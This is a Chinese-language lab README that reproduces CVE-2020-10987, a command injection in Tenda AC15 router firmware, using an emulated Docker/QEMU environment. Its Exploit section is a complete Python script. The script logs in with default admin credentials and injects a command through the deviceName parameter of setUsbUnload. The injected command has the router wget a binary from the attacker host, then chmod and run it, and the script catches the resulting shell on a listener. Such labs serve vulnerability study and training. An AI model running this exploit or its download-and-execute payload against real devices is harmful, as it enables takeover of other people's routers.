 # Tenda AC15 命令注入漏洞（CVE-2020-10987）

## 漏洞环境

- docker：攻击、调试主机：192.168.2.1
- qemu-system：固件主机：192.168.2.2
- httpd（有漏洞 Web 服务器）：192.168.2.2:80

本环境关系依赖如下，需依次构建：

```sh
# firmianay/ubuntu1604 -> firmianay/qemu-system:armhf

$ cd baseImage/ubuntu1604 && docker build -t firmianay/ubuntu1604 . && cd ../../
$ cd baseImage/qemu-system/armhf && docker build -t firmianay/qemu-system:armhf . && cd ../../../
```

使用 `firmianay/binwalk` 解压固件：

```sh
$ docker run --rm -v $PWD/firmware/:/root/firmware firmianay/binwalk -Mer "/root/firmware/US_AC15V1.0BR_V15.03.05.19_multi_TD01.bin"
```

然后即可构建本例镜像：

```sh
# cp baseImage/busybox/1.31.0/busybox-armv5l CVE-2020-10987/system-emu/tools/busybox
# cp baseImage/gdbserver/7.11.1/arm-gdbserver-7.11.1 CVE-2020-10987/system-emu/tools/gdbserver

$ docker-compose -f docker-compose-system.yml build
```

最后启动漏洞环境：

```sh
$ docker-compose -f docker-compose-system.yml up

# 启动完成后，开启 socks 代理
$ ssh -D 2345 root@127.0.0.1 -p 1234
# 配置浏览器代理，即可登陆 Web 后台 http://192.168.2.2/

# 漏洞利用，根据输出的地址信息修改 libc_base
$ python3 tools/exp.py
```

## 漏洞复现

![img](./poc.png)

## Exploit

```py
#!/usr/bin/python3

from pwn import *
import requests
from threading import Thread

cmd  = b'wget http://192.168.2.1:8000/tools/msf -O /msf;'
cmd += b'chmod 777 /msf;'
cmd += b'/msf'

assert(len(cmd) < 255)

url = b"http://192.168.2.2/login/Auth"
payload = b"http://192.168.2.2/goform/setUsbUnload/?deviceName=;%20" + cmd

data = {
    "username": "admin",
    "password": "admin",
}

def attack():
    s = requests.session()
    s.post(url=url, data=data)
    s.post(url=payload, data=data)

thread = Thread(target=attack)
thread.start()

io = listen(31337)
io.wait_for_connection()
log.success("getshell")
io.interactive()
```

## 参考链接

- https://www.nosec.org/home/detail/4634.html
